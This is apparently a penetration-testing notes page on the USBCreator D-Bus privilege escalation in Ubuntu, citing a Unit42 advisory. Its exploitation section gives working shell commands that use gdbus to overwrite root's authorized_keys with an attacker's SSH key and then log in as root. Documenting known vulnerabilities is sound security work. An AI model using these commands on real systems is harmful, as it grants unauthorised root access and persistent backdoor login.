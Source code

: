 # USBCreator D-Bus Privilege Escalation 
A vulnerability in the USBCreator D-Bus interface allows an attacker with access to a user in the sudoer group to bypass the password security policy imposed by the sudo program. The vulnerability allows an attacker to overwrite arbitrary files with arbitrary content, as root - without supplying a password. 

# Overview
If a running process uses `com.ubuntu.USBCreator` and the process is privileged one can move onto the explitation phase.

# Exploitation
This particular example is for adding the attacker's `SSH` key to the authorised keys, so that they can login without a password.
```bash
remote-machine> ps auwx | grep usb
remote-machine> echo "attacker_idrsa_key" > ~/authorized_keys
remote-machine> gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/remote/authorized_keys /root/.ssh/authorized_keys true
attack-machine> ssh -i id_rsa root@10.10.10.10
```

# References
- [https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)